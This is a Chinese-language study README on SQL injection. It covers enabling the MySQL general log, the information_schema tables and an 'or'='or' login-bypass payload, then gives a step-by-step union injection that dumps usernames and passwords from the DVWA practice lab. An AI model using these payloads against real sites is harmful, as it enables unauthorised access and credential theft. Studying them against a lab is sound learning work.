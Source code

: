# python-network-programming
### SQL注入
#### 开启mysql日志功能
```text
mysql> show variables like 'general_log%'
    -> ;
+------------------+---------------------------------------------+
| Variable_name    | Value                                       |
+------------------+---------------------------------------------+
| general_log      | OFF                                         |
| general_log_file | c:\phpStudy\PHPTutorial\MySQL\data\test.log |
+------------------+---------------------------------------------+
2 rows in set (0.00 sec)

mysql> set global general_log = 'ON';
Query OK, 0 rows affected (0.02 sec)

mysql> show variables like 'general_log%';
+------------------+---------------------------------------------+
| Variable_name    | Value                                       |
+------------------+---------------------------------------------+
| general_log      | ON                                          |
| general_log_file | c:\phpStudy\PHPTutorial\MySQL\data\test.log |
+------------------+---------------------------------------------+
2 rows in set (0.00 sec)
```
#### 查看mysql日志
windows下使用baretail进行查看 [baretail下载地址](http://www.baremetalsoft.com/baretail/index.php)
#### sql注入原理
可以通过网站存在的查询语句进行构造，为此开发者对其伤透了脑筋，漏洞不光是查询，可能还存在与API、隐藏链接、http头数据、写入数据等。需要对数据包的结构和传递函数比较了解，建议学习的时候把数据库的日志打开，就可以查看到传递到数据库的语句是什么样子的了。 需要记住的information_schema数据库的SCHEMATA、TABLES、COLUMNS。 SCHEMATA表中存放所有数据库的名，字段名为SCHEMA_NAME。 关键函数database() 当前数据库名、version() 当前mysql版本、user()当前mysql用户.
#### 漏洞危害
高危漏洞,可以获取敏感信息，修改信息，脱裤，上传 webshell,执行命令。
#### mysql
默认库information_schema和其中的表SCHEMATA、TABLES和COLUMNS SCHEMATA 存储的是用户创建所有数据库的库名记录数据库库名的字段为SCHEMA_NAME  
select schema_name from information_schema.schemata 查询全部数据库  
select table_schema,table_name from information_schema.tables 查询全部数据库和表的对应  
select table_name,column_name from information_schema.columns; 查询全表对应的字段
#### asp站点万能密码
'or'='or'
#### union注入
1、首先判断是否有注入点?id=1' and 1=1#和?id=1' and 1=2，测试两个返回是否相同，如不同则含有注入漏洞    
2、判断字段数量 1' order by 1#，当返回错误，前一个数值即为最大字段量。  
3、得到字段个数后，进行union注入,id=1' union select 1,2# 如果都显示，说明两个字段都可以进行替换  
4、判断当前所使用的数据库1' union select version(),database()#  
5、查找需要的表 ?id=1' union select table_schema,table_name from information_schema.tables#，把所有数据库的库和表的对应显示出来。  
6、查找表对应的字段?id=1' union select table_name,column_name from information_schema.columns#  
7、查最终数据 ?id=1' union select user,password from dvwa.users#  
***
不定期分享一些python开发,逆向破解、渗透测试相关文章,欢迎大家关注.  
![微信公众号](../gongzhonghao.jpg)
***
BUG:dazhuang_python@sina.com